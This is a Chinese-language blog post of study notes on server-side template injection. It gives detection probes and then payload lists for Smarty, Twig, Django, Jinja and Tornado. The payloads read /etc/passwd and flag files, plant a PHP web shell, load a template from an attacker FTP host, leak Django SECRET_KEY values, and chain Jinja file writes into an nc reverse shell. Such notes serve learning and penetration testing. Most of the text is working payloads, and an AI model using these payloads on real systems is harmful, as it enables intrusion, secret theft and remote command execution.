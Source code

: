 ```yaml
---
title: SSTI模板注入
comments: false
hide: false
date: 2020-12-13 14:58:27
urlname: ssti
updated: 2020-12-15 11:58:27
permalink:
tags:
  - SSTI
categories: 
  - 杂谈笔记
  - 学习笔记
---
```




SSTI模板注入

<!-- more -->

# SSTI漏洞

## 什么是模板注入

 SSTI （服务器端模板注入）也是格式化字符串的一个非常好的例子，凡是使用模板的地方都可能会出现 SSTI 的问题，SSTI 不属于任何一种语言，沙盒绕过也不是。这种模板不仅存于Python中，PHP中也有不少模板引擎。



## 检测流程

![SSTI流程](SSTI/SSTI流程.png)

首先输入`{{7*7}}`，返回值为`49`则表明存在SSTI

输入`{{system('cat /etc/passwd')}}`如果返回值则表明为**Smarty模板引擎**

输入`{{7*'7'}}`如果返回值是`49`则为**Twig模板引擎**

如果返回值是`7777777`则为**JinJa模板引擎**



---

## 姿势总结

### Smarty

payload：

```
{self::getStreamVariable("file:///etc/passwd")}

{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}

{literal}alert('xss');{/literal}

{if readfile('/flag')}{/if}
```



### Twig

payload:

```
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}

{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /etc/passwd")}}

<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("cat /etc/passwd") }
```



### Django

payload:

```
{user.groups.model._meta.app_config.module.admin.settings.SECRET_KEY}
{user.user_permissions.model._meta.app_config.module.admin.settings.SECRET_KEY}
```



### Jinja

payload:

```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evil', 'w').write('from os import system%0aSHELL = system') }}
//写文件
{{ config.from_pyfile('/tmp/evil') }}
//加载system
{{ config['SHELL']('nc xxxx xx -e /bin/sh') }}
//执行命令反弹SHELL
```



### Tornado

payload:

```
http://ip:port/error?msg={{handler.settings}}
```



 